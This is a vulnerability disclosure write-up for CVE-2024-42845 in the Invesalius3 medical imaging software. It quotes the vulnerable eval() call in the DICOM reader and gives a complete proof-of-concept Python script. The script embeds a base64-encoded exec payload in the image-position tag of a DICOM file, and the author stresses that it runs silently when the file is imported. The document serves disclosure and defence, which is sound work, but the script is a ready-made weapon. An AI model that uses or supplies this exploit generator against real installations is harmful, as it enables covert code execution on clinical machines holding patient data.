


# CVE-2024-42845

## Invesalius3 - Context Overview

[Invesalius](https://invesalius.github.io/) is an open source software for reconstruction of computed tomography and magnetic ressonance images available for Windows, GNU/Linux and Apple Mac OS X platforms.

<figure><figcaption><p>Invesalius3</p></figcaption></figure>

You can find more info about this 3D medical imaging reconstruction software at the following links:

* [https://github.com/invesalius/invesalius3](https://github.com/invesalius/invesalius3)
* [https://invesalius.github.io/about.html](https://invesalius.github.io/about.html)

***

### What is a DICOM file and how to edit them

DICOM is a standard file format widely used worldwide to store, exchange, and transmit medical images. DICOM files typically have the `.dcm` extension added to them.

DICOM files are central to the development of modern radiological imaging, as they incorporate standards for imaging modalities such as radiography, ultrasonography, computed tomography, magnetic resonance imaging, and radiation therapy.

This complex standard includes protocols for image exchange, image compression, 3D visualization, image presentation, and results reporting.


To properly edit and view DICOM files, third-party softwares are necessary.

One recommended software is [MicroDicom](https://www.microdicom.com/).


***

## The Vulnerability

### Overview

A Remote Code Execution (RCE) vulnerability exists in the DICOM file import procedure in Invesalius3. This vulnerability afflicts all versions from 3.1.99991 to 3.1.99998.

The exploitation steps of this vulnerability involve the use of a crafted DICOM file which, once imported inside the victim's client application allows an attacker to gain remote code execution over the victim's machine.


**Disclaimer:** I worked on this vulnerability with [partywave](https://www.partywave.site/list).

Check out his works as well!


### The vulnerable code

Invesalius3 versions from 3.1.99991 to 3.1.99998 (2nd latest available at the time of writing) contain the following vulnerable function inside the `invesalius/reader/dicom.py` script file.

```python
430    def GetImagePosition(self):
431     """
432     Return [x, y, z] (number list) related to coordinates
433     of the upper left corner voxel (first voxel transmitted).
434     This value is given in mm. Number might be floating point
435     or integer.
436     Return "" if field is not defined.
437
438     DICOM standard tag (0x0020, 0x0032) was used.
439     """
440     try:
441         data = self.data_image[str(0x020)][str(0x032)].replace(",", ".")
442     except KeyError:
443         return ""
444     if data:
445        return [eval(value) for value in data.split("\\")]
446        return ""
```

This function is triggered whenever a new DICOM file is imported.

In particular, the position of the imported image is calculated based on the coordinates contained in the image's position indexes in the tag at position `(0x020, 0x032)`.


A DICOM object contains several attributes that can be referenced using several notations. In this specific case, the notation used is \[hex-n, hex-n] where hex-n is the hexadecimal representation of a numerical index.


The coordinates' values are separated from `\` characters.\
An example is the following: `5.1\4.3\3.2`.

Since the `eval` function is called for each value inside that range, where each value is taken by removing the `\` characters, an attacker might inject a malicious python payload after the last coordinate value (preceded by a `\` character) in order to cause the python code to be executed by the `eval` function.

Notice that any `,` character in the payload is going to be replaced with a `.` character, as `line 441` suggests:

```python
data = self.data_image[str(0x020)][str(0x032)].replace(",", ".")
```

***

### Proof of Concept (PoC)

As previously stated, since the payload undergoes several syntax checks that may cause its `,` characters to be replaced with `.` characters, the handiest solution is to append and decode a base64-encoded payload.&#x20;

The payload had to be injected inside a valid DICOM file. There are several free examples available online, the one that we decided to use is MrBrain, which you can find here: [Sample DICOM Files](https://www.rubomedical.com/dicom\_files/).

Finally, an interesting operational note is that, by adding the Python payload at the end of the actual DICOM coordinates, the payload will be executed by the application without causing the application to crash or have any unexpected behaviour, allowing the attack to be performed without any notice.

<figure><figcaption><p>The proof of concept in action.</p></figcaption></figure>

The script below creates a specifically crafted DICOM payload for CVE-2024-42845.


You can find the proof of concept code in my repository:\
[https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845)


Remote Code Execution is gained once the DICOM file is imported inside the victim's client application.

```python
import pydicom
import base64
import argparse

pydicom.config.settings.reading_validation_mode = pydicom.config.IGNORE


def encode_payload(plain_payload):
    data = open(plain_payload, 'rb').read()
    return f"exec(__import__('base64').b64decode({base64.b64encode(data)})"

def prepare_dicom_payload(dicom_file_path, payload):
    try:
        dicom_data = pydicom.dcmread(dicom_file_path)

        values = dicom_data[0x0020, 0x0032].value
        mal = [str(i) for i in values]
        mal.append(encode_payload(payload))
        
    except pydicom.errors.InvalidDicomError:
        print("The file is not a valid DICOM file.")
    except Exception as e:
        print(f"An error occurred: {e}")
    
    return mal


def modify_dicom_field(dicom_file_path, malicious_tag, outfile, sign):
    try:
        dicom_dataset = pydicom.dcmread(dicom_file_path)
        if sign:
            dicom_dataset.Manufacturer = "Malicious DICOM file creator"
            dicom_dataset.InstitutionName = "Malicious DICOM file institution"
        elem =  pydicom.dataelem.DataElement(0x00200032, 'CS', malicious_tag)
        dicom_dataset[0x00200032] = elem
        print(dicom_dataset)
        dicom_dataset.save_as(outfile)
    except Exception as e:
        print(f"An error occurred: {e}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Read a DICOM file.')
    parser.add_argument('--dicom', required=True, help='Path to the input DICOM file')
    parser.add_argument('--outfile', required=True, help='Path to the output DICOM file')
    parser.add_argument('--payload', required=False, default=b"print('Test')", help='File that contains the malicious plain python3 code')
    parser.add_argument('--signature', required=False, default=True)
    
    args = parser.parse_args()
    dicom_infile_path = args.dicom
    dicom_outfile_path = args.outfile
    print(args.signature)
    
    tmp_tag = prepare_dicom_payload(dicom_infile_path, payload=args.payload)
    if tmp_tag:
        malicious_tag = '\\'.join(tmp_tag)

        modify_dicom_field(dicom_infile_path, malicious_tag, dicom_outfile_path, sign=args.signature)
        exit(0)
    else:
        exit(1)
```

***

## References

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42845)
* [https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845)
* [https://www.exploit-db.com/exploits/52076](https://www.exploit-db.com/exploits/52076)
* [https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan](https://www.partywave.site/show/research/Tic%20TAC%20-%20Beware%20of%20your%20scan)
